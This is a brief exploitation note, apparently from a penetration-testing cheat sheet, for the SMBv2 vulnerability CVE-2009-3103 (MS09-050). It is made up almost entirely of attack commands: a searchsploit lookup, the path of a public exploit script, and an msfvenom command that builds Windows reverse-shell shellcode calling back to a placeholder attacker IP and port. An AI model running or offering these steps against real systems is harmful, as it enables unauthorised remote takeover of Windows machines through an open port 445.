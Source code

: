 # CVE2009-3103

Ensure port 445 is open for this to work

```text
searchsploit MS09-050
```

```text
exploits/windows/remote/40280.py
```

### Shellcode

```text
msfvenom -p windows/shell_reverse_tcp \
    -f python -v shell \
    LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT EXITFUNC=thread 
```



